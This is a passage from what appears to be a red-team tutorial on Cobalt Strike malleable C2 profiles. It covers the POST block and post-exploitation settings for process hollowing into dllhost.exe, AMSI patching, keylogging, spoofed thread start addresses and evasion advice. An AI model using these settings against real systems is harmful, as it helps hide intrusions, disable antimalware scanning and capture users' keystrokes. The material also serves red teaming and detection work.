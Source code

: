             id {
                netbios;
                base64url;
                parameter "key";
            }
    
            output {
                print;
            }
        }
    
        server {
            header "Pragma" "no-cache";
            header "Connection" "close";
    
            output {
                print;
            }
        }
    }

Again like the GET section above, the POST section states how information should be sent in a POST request, it has the added benefit that specifics such as body content and other parameters can be set to enable you to blend in.

### Post Exploitation

Customising the GET and POST requests is just the beginning, the next few sections of the profile is where the magic of post exploitation customisation lives including how the beacon looks in memory, how migration and beacon object files affect the indicators of compromise and much much more.

    post-ex {
        
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set obfuscate "true";
        set smartinject "true";
        set amsi_disable "true";
        set pipename "Winsock2\\CatalogChangeListener-###-0,";
        set keylogger "GetAsyncKeyState";
        set threadhint "module!function+0x##"
    }

- spawnto_x86|spawnto_x64 - Specifies the process that will be hollowed out and new beacon process be created inside, this can typically be set to anything however it is recommended not to use the following "csrss.exe","logoff.exe","rdpinit.exe","bootim.exe","smss.exe","userinit.exe","sppsvc.exe". In addition selecting a binary that does not launch with user account control is key(UAC). To add additional stealthy and blending techniques, you can add paramters to the spawnto command: ``set spawnto_x86 "`%windir%\syswow64\dllhost.exe` -k netsvcs";``. 
- obfuscate - The obfuscate option scrambles the content of the post-exploitation DLLs and settles the post-ex capability into memory in a more operational security-safe manner.
- smartinject - This directs Beacon to embed key function pointers, like GetProcAddress and LoadLibrary, into its same-architecture post-ex DLLs. This allows post-ex DLLs to bootstrap themselves in a new process without shellcode-like behavior that is detected and mitigated by watching memory accesses to the PEB and kernel32.dll.
- amsi_disable - This option directs powerpick, execute-assembly, and psinject to patch the AmsiScanBuffer function before loading .NET or PowerShell code. This limits the Antimalware Scan Interface visibility into these capabilities. There are additional things that can be done post exploitation with the likes of beacon object files(BOFS) to evade amsi, but I will not be covering BOFs in this post.
- keylogger - The GetAsyncKeyState option (default) uses the GetAsyncKeyState API to observe keystrokes. The SetWindowsHookEx option uses SetWindowsHookEx to observe keystrokes, this can be tuned even more within the TeamServer properties which is discussed further down this post.
- Threadhint - allows multi-threaded post-ex DLLs to spawn threads with a spoofed start address. Specify the thread hint as "module!function+0x##" to specify the start address to spoof. The optional 0x## part is an offset added to the start address.
